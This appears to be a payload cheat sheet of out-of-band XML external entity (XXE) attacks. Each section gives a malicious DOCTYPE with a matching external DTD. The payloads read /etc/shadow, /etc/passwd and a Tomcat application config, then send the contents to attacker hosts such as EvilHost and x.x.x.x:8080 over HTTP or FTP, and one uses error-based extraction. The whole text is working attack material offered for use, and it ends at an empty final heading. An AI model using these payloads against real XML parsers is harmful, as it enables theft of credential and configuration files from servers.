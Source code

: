 <?xml version="1.0"?> 
<!DOCTYPE r [ 
<!ENTITY % data3 SYSTEM "file:///etc/shadow"> 
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd"> 
%sp; 
%param3; 
%exfil; 
]> 
 
## External dtd: ## 
<!ENTITY % param3 "<!ENTITY % exfil SYSTEM 'ftp://Evilhost:port/%data3;'>"> 
 
----------------------------------------------------------------------- 
OoB extra ERROR -- Java 
----------------------------------------------------------------------- 
<?xml version="1.0"?> 
<!DOCTYPE r [ 
<!ENTITY % data3 SYSTEM "file:///etc/passwd"> 
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd"> 
%sp; 
%param3; 
%exfil; 
]> 
<r></r> 
## External dtd: ## 
 
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external; 
 
 
----------------------------------------------------------------------- 
OoB extra nice 
----------------------------------------------------------------------- 
 
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [ 
 <!ENTITY % start "<![CDATA["> 
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml "> 
<!ENTITY % end "]]>"> 
<!ENTITY % dtd SYSTEM "http://evil/evil.xml"> 
%dtd; 
]> 
<root>&all;</root> 
  
## External dtd: ## 
  
<!ENTITY all "%start;%stuff;%end;"> 
 
------------------------------------------------------------------ 
File-not-found exception based extraction 
------------------------------------------------------------------ 
 